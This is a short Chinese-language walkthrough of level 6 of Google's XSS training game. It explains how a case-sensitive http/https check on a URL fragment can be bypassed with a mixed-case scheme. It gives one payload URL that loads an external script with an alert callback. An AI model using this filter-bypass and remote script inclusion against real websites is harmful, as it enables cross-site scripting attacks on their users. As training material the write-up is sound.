

# Level-6

## 攻擊原理

#### 原始碼
- index.html

#### 手法:
- `#` 後的 URL 都會被執行
- 程式碼會用 url.match 檢查 http/https，但不是大小寫敏感！


## 攻擊方法
- 在 frame URL 中輸入

```
https://xss-game.appspot.com/level6/frame#httpS://www.google.com/jsapi?callback=alert
```

## 截圖

#### Request:


#### Response:

